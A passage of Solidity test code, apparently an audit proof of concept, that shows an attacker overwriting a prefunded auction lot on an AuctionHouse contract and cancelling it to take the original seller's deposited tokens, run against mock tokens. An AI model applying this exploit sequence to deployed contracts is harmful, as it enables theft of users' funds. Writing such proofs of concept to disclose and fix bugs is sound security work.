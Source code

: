 ```solidity
  address public OWNER = makeAddr('Owner');
  address public PROTOCOL = makeAddr('Protocol');
  address public PERMIT2 = makeAddr('Permit 2');

  MockERC20 public baseToken = new MockERC20("Base", "BASE", 18);
  MockERC20 public quoteToken = new MockERC20("Quote", "QUOTE", 18);

  function setUp() public {
    vm.warp(1710965574);
    auctionHouse = new AuctionHouse(OWNER, PROTOCOL, PERMIT2);
    fixedPriceAuctionModule = new FixedPriceAuctionModule(address(auctionHouse));

    vm.prank(OWNER);
    auctionHouse.installModule(fixedPriceAuctionModule);
  }

  function test_overtake_auction_and_steal_prefunded_funds() public {
    // Step 1
    uint256 PREFUNDED_AMOUNT = 1_000e18;
    address USER = makeAddr('User');
    vm.startPrank(USER);
    baseToken.mint(PREFUNDED_AMOUNT);
    baseToken.approve(address(auctionHouse), PREFUNDED_AMOUNT);

    AuctionHouse.RoutingParams memory routingParams;
    routingParams.auctionType = keycodeFromVeecode(fixedPriceAuctionModule.VEECODE());
    routingParams.baseToken = baseToken;
    routingParams.quoteToken = quoteToken;
    routingParams.prefunded = true;

    Auction.AuctionParams memory auctionParams;
    auctionParams.start = uint48(block.timestamp + 1 weeks);
    auctionParams.duration = 5 days;
    auctionParams.capacity = uint96(PREFUNDED_AMOUNT);
    auctionParams.implParams =
      abi.encode(FixedPriceAuctionModule.FixedPriceParams({price: 1e18, maxPayoutPercent: 100_000}));

    auctionHouse.auction(routingParams, auctionParams, "");

    // Step 2
    address ATTACKER = makeAddr('Attacker');
    vm.startPrank(ATTACKER);

    routingParams.prefunded = false;
    auctionHouse.auction(routingParams, auctionParams, "");
	
    // ATTACKER is now the seller of the lot at lotRouting[0]; the lot's funding remains the same
    auctionHouse.cancel(0, "");

    assertEq(baseToken.balanceOf(ATTACKER), PREFUNDED_AMOUNT);
    assertEq(baseToken.balanceOf(USER), 0);
  }
}

contract MockERC20 is ERC20 {
    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals
    ) ERC20(_name, _symbol, _decimals) {}

    function mint(uint256 amount) public {
```